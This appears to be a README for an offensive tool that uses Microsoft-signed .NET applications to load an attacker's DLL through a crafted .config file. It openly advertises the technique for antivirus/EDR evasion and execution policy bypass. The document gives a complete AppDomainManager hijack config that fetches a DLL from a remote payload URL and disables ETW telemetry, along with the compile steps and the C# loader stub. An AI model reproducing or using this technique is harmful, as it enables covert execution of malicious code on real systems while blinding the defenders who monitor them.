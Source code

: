 # .NetConfigLoader

List of .Net application signed by Microsoft that can be used to load a dll via a .config file. Ideal for EDR/AV evasion and execution policy bypass.

```
<configuration>
   <runtime>
      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
         <dependentAssembly>
            <assemblyIdentity name="DLLNAME" publicKeyToken="deadbeef1337" culture="neutral" />
            <codeBase version="0.0.0.0" href="https://mr.un1k0d3r.world/payload"/>
         </dependentAssembly>
      </assemblyBinding>
      <etwEnable enabled="false" />
      <appDomainManagerAssembly value="DLLNAME, Version=0.0.0.0, Culture=neutral, PublicKeyToken=deadbeef1337" />
      <appDomainManagerType value="CLASSNAME" />
   </runtime>
</configuration>
```
# Compiling the DLL

The DLL needs to have strong name

`sn.exe -k key.snk`

`csc.exe /t:library /keyfile:key.snk /out:my.dll Program.cs`

Getting the strong name information for the .config file

`[System.Reflection.AssemblyName]::GetAssemblyName("C:\full\path\to\dll\my.dll").FullName`

# The DLL Structure

```
using System;
 
public sealed class CLASSNAME : AppDomainManager
{
    
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {  
         
        Program.Main(null);
          
        return;
    }
}
```
